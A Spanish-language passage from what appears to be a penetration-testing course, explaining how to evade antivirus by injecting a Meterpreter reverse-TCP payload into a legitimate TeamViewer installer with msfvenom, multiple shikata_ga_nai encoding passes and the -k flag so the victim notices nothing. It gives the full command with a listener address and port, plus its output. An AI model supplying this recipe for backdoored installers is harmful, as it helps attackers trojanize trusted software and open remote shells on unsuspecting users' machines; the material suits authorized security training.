 Volviendo a msfconsole, su capacidad de mantener túneles cifrados con AES, junto con la característica de Meterpreter de ejecutarse en memoria, aumenta nuestra capacidad en un margen considerable. Sin embargo, todavía tenemos el problema de lo que sucede con un payload una vez que llega a su destino, antes de que se ejecute y se coloque en la memoria. Este archivo podría ser identificado por su firma, coincidente contra la base de datos y bloqueado, junto con nuestras oportunidades de acceder al objetivo. También podemos estar seguros de que los desarrolladores de software AV están mirando los módulos y capacidades de msfconsole para agregar el código resultante y los archivos a su base de datos de firmas, lo que resulta en que la mayoría, si no todos, los payloads predeterminados se cierren inmediatamente por el software AV hoy en día.

Estamos de suerte porque `msfvenom` ofrece la opción de usar plantillas ejecutables. Esto nos permite usar algunas plantillas preestablecidas para archivos ejecutables, inyectar nuestro payload en ellos (sin juego de palabras) y usar `cualquier` ejecutable como una plataforma desde la cual podemos lanzar nuestro ataque. Podemos incrustar el shellcode en cualquier instalador, paquete o programa que tengamos a mano, ocultando el shellcode malicioso dentro del código legítimo del producto real. Esto oculta en gran medida nuestro código malicioso y, lo que es más importante, reduce nuestras posibilidades de detección. Hay muchas combinaciones válidas entre archivos ejecutables legítimos reales, nuestros diferentes esquemas de codificación (y sus iteraciones) y nuestras diferentes variantes de shellcode de payload. Esto genera lo que se llama un ejecutable con puerta trasera.

Echa un vistazo al fragmento a continuación para entender cómo msfvenom puede incrustar payloads en cualquier archivo ejecutable:

```r
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai

 succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe
```

```r
ls

Pictures-of-cats.tar.gz  TeamViewer_Setup.exe  Cake_recipes
```

En la mayoría de los casos, cuando un objetivo lanza un ejecutable con puerta trasera, no parecerá que sucede nada, lo que puede levantar sospechas en algunos casos. Para mejorar nuestras posibilidades, necesitamos activar la continuación de la ejecución normal de la aplicación lanzada mientras extraemos el payload en un hilo separado de la aplicación principal. Hacemos esto con el indicador `-k`, como aparece arriba. Sin embargo, incluso con el indicador `-k` funcionando, el objetivo solo notará la puerta trasera en ejecución si lanzan la plantilla del ejecutable con puerta trasera desde un entorno CLI. Si lo hacen, aparecerá una ventana separada con el payload, que no se cerrará hasta que terminemos la interacción de la sesión del payload en el objetivo.

---